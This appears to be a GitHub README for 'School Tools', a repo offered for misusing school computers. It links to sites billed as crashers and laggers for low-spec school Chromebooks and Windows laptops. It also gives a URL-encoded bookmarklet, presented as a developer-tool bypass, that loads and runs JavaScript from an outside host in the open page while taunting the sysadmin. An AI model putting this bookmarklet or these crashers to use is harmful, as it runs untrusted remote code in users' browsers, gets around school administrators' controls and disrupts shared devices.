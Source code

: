 # School Tools

A repo full of tools to torture School!




## Documentation
> School Laptop Laggers (Must be low spec chrome OS & windows systems)
+ [Crasher](http://bongo-hates-python.cf/)
+ [Crasher/lagger](https://crash.drugs4children.org/)

> Developer Tool Bypasses
```JS 
javascript:(function()%7Bfunction%20callback()%7Bconsole.log(%22L%2C%20sysadmin%22)%7Dvar%20s%3Ddocument.createElement(%22script%22)%3Bs.src%3D%22https%3A%2F%2Fdrugs4children.org%2FGetSource.js%22%3Bif(s.addEventListener)%7Bs.addEventListener(%22load%22%2Ccallback%2Cfalse)%7Delse%20if(s.readyState)%7Bs.onreadystatechange%3Dcallback%7Ddocument.body.appendChild(s)%3B%7D)()
```

+ [Soon](https://github.com/StiizzyCat/SchoolTools)
